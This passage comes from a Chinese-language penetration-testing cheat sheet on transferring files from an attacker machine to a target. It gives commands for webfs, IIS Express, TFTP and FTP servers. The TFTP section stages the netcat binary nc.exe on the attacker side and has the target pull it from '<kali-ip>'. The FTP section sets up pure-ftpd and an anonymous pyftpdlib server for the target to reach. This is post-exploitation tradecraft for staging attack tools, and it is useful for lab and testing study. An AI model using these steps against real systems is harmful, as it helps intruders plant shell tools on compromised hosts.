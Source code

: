 - webfs
    ```bash
    webfsd -F -p 8000
    ```

- IIS Express
    ```bash
    C:\> "C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\MyWeb /port:8000
    ```

### FTP

**tftp**

基于 udp,端口为 69

- **攻击端起 tftp**
    ```bash
    mkdir /tftp
    atftpd --daemon --port 69 /tftp
    cp /usr/share/windows-binaries/nc.exe /tftp/
    chown -R nobody /tftp
    ```

- **目标机**
    ```bash
    tftp -i <kali-ip> GET nc.exe
    ```

**ftp**

- **攻击端**
    ```bash
    apt-get install pure-ftpd

    groupadd ftpgroup
    useradd -g ftpgroup -d /dev/null -s /etc ftpuser
    pure-pw useradd username -u ftpuser -d /ftphome
    pure-pw mkdb
    cd /etc/pure-ftpd/auth/
    ln -s ../conf/PureDB 60pdb
    mkdir -p /ftphome
    chown -R ftpuser:ftpgroup /ftphome/
    /etc/init.d/pure-ftpd restart
    ./setup-ftp(输入要设置的密码)
    ```

    攻击端使用 python 起 ftp:
    ```
    apt-get install python-pyftpdlib
    mkdir /ftp
    cd /ftp/
    python -m pyftpdlib -p 21
    ```
    此时目标机连接的时候,用户名为 anonymous,密码随意
